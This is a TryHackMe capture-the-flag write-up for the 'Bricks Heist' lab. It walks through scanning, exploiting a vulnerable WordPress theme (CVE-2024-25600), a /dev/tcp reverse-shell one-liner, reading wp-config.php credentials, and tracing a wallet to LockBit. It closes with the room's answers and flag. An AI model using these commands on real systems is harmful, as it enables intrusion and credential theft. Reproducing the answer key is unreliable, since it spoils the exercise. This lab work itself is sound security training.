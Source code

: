 # TryHack3M: Bricks Heist | TryHackMe Write-up

 **Overview**

-   Room: Bricks Heist\
-   Difficulty: Easy\
-   Tags: Enumeration, WordPress, Exploitation, Privilege Escalation,
    OSINT

------------------------------------------------------------------------

##  Enumeration

Full port scan:

``` bash
sudo nmap -sV -sT -O -p- bricks.thm
```

Open ports:

    22/tcp   open  ssh
    80/tcp   open  http
    443/tcp  open  https
    3306/tcp open  mysql

On HTTP there was only an image.\
Let's check directories:

``` bash
gobuster dir -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

``` bash
gobuster dir -k -u https://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

Discovered `wp-content` → WordPress site.

------------------------------------------------------------------------

##  WordPress Scan

``` bash
wpscan --url https://bricks.thm/ --disable-tls-checks
```

Found theme **bricks 1.9.5** → vulnerable.\
Exploit:
[CVE-2024-25600](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT)

``` bash
pip3 install alive-progress
```

Running the exploit gives us access as user `apache`.

------------------------------------------------------------------------

##  Reverse Shell

Start listener:

``` bash
nc -lvnp 9001
```

On target:

``` bash
sh -i 5<> /dev/tcp/10.10.10.10/9001 0<&5 1>&5 2>&5
```

Now we have a stable shell.\
Found a hidden `.txt` file containing the first flag.

------------------------------------------------------------------------

##  wp-config.php

``` bash
cat wp-config.php
```

Found **DB credentials**.\
Log into:

    https://bricks.thm/phpmyadmin

Access granted, but not useful for the next question.

------------------------------------------------------------------------

##  Services

Check running services:

``` bash
systemctl list-units --type=service --state=running
```

Suspicious service found:

``` bash
systemctl cat ubuntu.server
```

→ points to `/lib/NetworkManager`.

------------------------------------------------------------------------

##  Malicious Files

Inside the directory we find `inet.conf`.

``` bash
head inet.conf
```

It contains an encoded ID.\
Decode with **CyberChef** → crypto wallet address.

------------------------------------------------------------------------

##  Blockchain OSINT

Check the address on [blockchair.com](https://blockchair.com/).\
Transaction history links it to the **LockBit Ransomware Group**.

------------------------------------------------------------------------

##  Answers

1.  **User flag**:

        THM{fl46_650c844110baced87e1606453b93f22a}

2.  **Suspicious crypto wallet**:

        bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

3.  **Ransomware Group**:

        LockBit

------------------------------------------------------------------------

##  Conclusion

-   Enumeration → WordPress discovered.\
-   Exploited vulnerable theme → got `apache` shell.\
-   Extracted creds from `wp-config.php`.\
-   Analyzed suspicious systemd service.\
-   Extracted and decoded ID from `inet.conf`.\
-   OSINT linked the wallet to **LockBit Group**.

------------------------------------------------------------------------

